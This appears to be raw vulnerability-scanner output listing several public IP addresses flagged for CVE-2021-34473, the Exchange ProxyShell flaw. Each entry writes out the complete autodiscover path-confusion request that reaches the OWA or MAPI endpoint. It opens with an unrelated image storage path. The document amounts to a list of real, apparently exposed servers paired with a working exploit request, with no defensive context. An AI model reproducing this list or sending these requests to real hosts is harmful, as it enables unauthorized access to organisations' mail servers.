 [CVE-2021-34473] [http] [critical] https://94.230.8.164/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 94.228.203.190  
  
---  
[CVE-2021-34473] [http] [critical] https://94.228.203.190/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://94.228.203.190/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 95.163.71.62  
  
---  
[CVE-2021-34473] [http] [critical] https://95.163.71.62/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://95.163.71.62/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 95.170.128.41  
  
---  
[CVE-2021-34473] [http] [critical] https://95.170.128.41/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://95.170.128.41/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 95.172.62.139  
  
---  
[CVE-2021-34473] [http] [critical] https://95.172.62.139/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 95.54.194.226  
  
---  
[CVE-2021-34473] [http] [critical] https://95.54.194.226/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://95.54.194.226/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com